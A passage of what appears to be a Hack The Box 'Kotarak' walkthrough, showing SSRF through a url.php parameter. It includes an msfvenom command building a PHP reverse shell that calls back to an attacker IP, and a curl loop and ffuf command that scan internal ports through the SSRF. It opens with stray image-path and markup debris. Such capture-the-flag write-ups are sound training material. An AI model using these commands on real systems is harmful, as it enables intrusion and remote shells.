     </form>
    ```
* `url.php`
  * this plays with `index.php` to search up links

## Private browser fuzzing
Time to dig into the private browsing feature we discovered on `http://kotarak.htb:60000`. To begin, lets try making requests to a locally hosted http server. Since phpinfo displayed file uploads as on, it's possible we can make a request to download a maliciouis file from our hosted server.
```
# Create completely malicious file
vi hello-world.txt
# Host server
python -m SimpleHTTPServer                                                                                                1 ⨯
Serving HTTP on 0.0.0.0 port 8000 ...
# Generate url
http://10.10.14.24:8000/hello-world.txt
# Plug into kotarak and run...
10.10.10.55 - - [05/Feb/2022 11:52:10] "GET /hello-world.txt HTTP/1.1" 200 -
```
* hello world test
  * `http://kotarak.htb:60000/url.php?path=http%3A%2F%2F10.10.14.24%3A8000%2Fhello-world.txt`
  * works!
* try loading a webshell. We can forge a weapon with `msfvenom`
  * `msfvenom -p php/reverse_php LHOST=10.10.14.24 LPORT=4445 -f raw > shell.php`
  * Just loads plaintext, move on

What about pulling local files?

* tomcat files?
  * `http://127.0.0.1:8080/manager/html`
  * nope
* what ports are open locally?
  * this opens up a rabbit hole

Since it's not immediately clear what is being hosted locally, use some bash scripting to generate a better list. Note: there are a few ways to do this, my first time around I also tried a method using ffuf which also worked well.
> for f in `seq 1 8000`; do echo "Port:${f}"; curl http://kotarak.htb:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A${f}; done > local_scan.txt

> `fuf -w all-ports.txt -u http://kotarak.htb:60000/url.php?path=http%3A%2F%2Flocalhost%3AFUZZ -ac -c -o ffuf.txt`

There are quite a few open ports locally, broken down below:

Port:22 - ssh
```
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2                                                                                           
Protocol mismatch.                                                                                                                
```
Port:90 - wip page
```html
<!DOCTYPE>                                                                                                                        
<html>                                                                                                                            
<head>                                                                                                                            
<title>Under Construction</title>                                                                                                 
</head>                                                                                                                           
```